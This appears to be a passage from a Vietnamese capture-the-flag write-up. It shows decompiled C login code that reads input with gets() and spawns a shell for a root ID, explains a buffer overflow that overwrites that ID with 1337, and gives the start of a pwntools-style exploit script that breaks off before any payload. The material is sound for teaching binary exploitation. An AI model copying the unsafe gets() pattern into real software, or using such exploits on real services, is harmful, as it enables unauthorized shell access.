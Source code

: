 ```c
  v6 = GUEST_ID;
  printf("Enter username: ");
  fflush(stdout);
  gets(s);
  printf("Enter password: ");
  fflush(stdout);
  gets(v5);
  if ( !strcmp(s, "admin") )
  {
    if ( v6 == ROOT_ID )
    {
      puts("Welcome, root!");
      fflush(stdout);
      system("/bin/sh");
    }
    else
    {
      if ( v6 == GUEST_ID )
        puts("Welcome, guest!");
      else
        puts("Nice try, but you are not root!");
      fflush(stdout);
    }
  }
  else
  {
    printf("Welcome, %s!\n", s);
    fflush(stdout);
  }
  return 0;
}
```

Dựa vào IDA ta thấy được đây là một bài `Buffer Overflow` đơn giản khi những gì ta cần chỉ là cho v6 bằng `ROOT_ID`, khi check kĩ `.data` hơn thì mình thấy `ROOT_ID` được khai báo với giá trị `1337`. Và đây là exploit của mình cho bài này:

```py
#!/usr/bin/python3
from pwncus import *
from time import sleep

context.log_level = 'debug'
exe = context.binary = ELF('./bofbegin', checksec=False)

def GDB(): gdb.attach(p, gdbscript='''


c
''') if not args.REMOTE else None

if args.REMOTE:
    con = sys.argv[1:]
    p = remote(con[0], int(con[1]))
else:
    p = process(argv=[exe.path], aslr=False)
set_p(p)
if args.GDB: GDB(); input()

# ===========================================================
#                          EXPLOIT
# ===========================================================

def exploit():
```